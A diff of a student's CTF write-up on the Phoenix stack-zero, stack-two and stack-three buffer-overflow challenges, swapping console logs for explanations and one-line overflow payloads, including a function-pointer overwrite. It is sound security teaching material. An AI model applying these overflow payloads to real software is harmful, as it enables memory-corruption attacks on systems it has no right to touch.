

Before and after one commit to Anjalihere/CSOC_24, a Markdown page: Week_4 /binary_exploitation.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Week_4 /binary_exploitation.md
+++ b/Week_4 /binary_exploitation.md
@@ -49,8 +49,11 @@ int main(int argc, char **argv) {
   exit(0);
 }
 ```
-```console
-user@phoenix-amd64:/opt/phoenix/amd64$  python -c "print 'B'*100" | ./stack-zero
-Welcome to phoenix/stack-zero, brought to you by https://exploit.education
-Well done, the 'changeme' variable has been changed!
+
+To succeed in this challenge, we need to change the value of the `changeme` variable, which follows a `64-character buffer` in memory. Since changeme is declared as volatile, its memory location directly follows the buffer. The `gets` function, which reads input from stdin into the buffer, is vulnerable to `buffer overflow` attacks because it doesn't limit the number of characters copied. If the input exceeds 64 characters, it will overflow into the changeme variable's memory location, allowing us to alter its value.
+
+Let's enter a string that is longer than the size of the buffer, in this case we’ll add 1 extra character.
+We can use this command:
+```python
+$ python -c "print 'A'*65" | ./stack-zero
 ```
@@ -174,11 +189,15 @@ int main(int argc, char **argv) {
   exit(0);
 }
 ```
-```console
-user@phoenix-amd64:/opt/phoenix/amd64$ ExploitEducation=$(python -c 'print "A"*64 + "\x0a\x09\x0a\x0d"')
-user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation
-user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two
-Welcome to phoenix/stack-two, brought to you by https://exploit.education
-Well done, you have successfully set changeme to the correct value
+This time, we need to overflow “buffer” with an `environment variable`. Let's search for `how to set environment variable in linux` and found it:
+
+<img width="595" alt="Screenshot 2024-07-10 at 5 24 24 PM" src="https://github.com/Anjalihere/CSOC_24/assets/146505430/7b9aeffc-d7f6-43ec-b8eb-f015e7100d26">
+
+The code initializes a pointer `ptr` to a string stored in the environment variable `ExploitEducation`. This string is then copied into the `buffer` variable using the `strcpy()` function without any bounds checking. Subsequently, the value of the `changeme` variable is evaluated to determine if it equals `0x0d0a090a`.
+
+So, we’ll fill the buffer with 64 characters and then append specific bytes so that the changeme variable takes the value 0x0d0a090a and pass the string to the program via the ExploitEducation environment variable.
+
+```python
+export ExploitEducation=$(python -c 'print "A"*64 + "\x0a\x09\x0a\x0d"') && ./stack-two
 ```
 
@@ -242,14 +264,15 @@ int main(int argc, char **argv) {
   exit(0);
 }
 ```
-```console
-user@phoenix-amd64:/opt/phoenix/amd64$ objdump -d stack-three | grep complete_level
-00000000004007c4 <complete_level>:
-user@phoenix-amd64:/opt/phoenix/amd64$  python -c 'print "A"*64 + "\xc4\x07\x40"' | ./stack-three
-Welcome to phoenix/stack-three, brought to you by https://exploit.education
-calling function pointer @ 0x4007c4
-Congratulations, you've finished phoenix/stack-three :-) Well done!
-```
+The structure is similar to previous challenges, but now the changeme variable is replaced by a `fp (function pointer)` variable. The program attempts to call the function pointed to by fp. To complete the challenge, we need to change fp to point to the `complete_level` function, as this function is not called in the source code. Let's use `gdb` or `objdump` to get address of the complete_level function
+
+
+Knowing the complete_level function address is `0x000000000040069d`, we can exploit the buffer overflow by filling the buffer with 64 'A's followed by the function's address.
+
+<img width="1095" alt="Screenshot 2024-07-10 at 6 42 50 PM" src="https://github.com/Anjalihere/CSOC_24/assets/146505430/878a737e-2b1d-4a6c-93e0-23a8a4a1b245">
+
+And, we have finished the level :)
+
 # Stack-Four
 
 > Stack Four takes a look at what can happen when you can overwrite the saved instruction pointer (standard buffer overflow).
````
Also changed, not shown: other parts of Week_4 /binary_exploitation.md (+51 -5 lines).
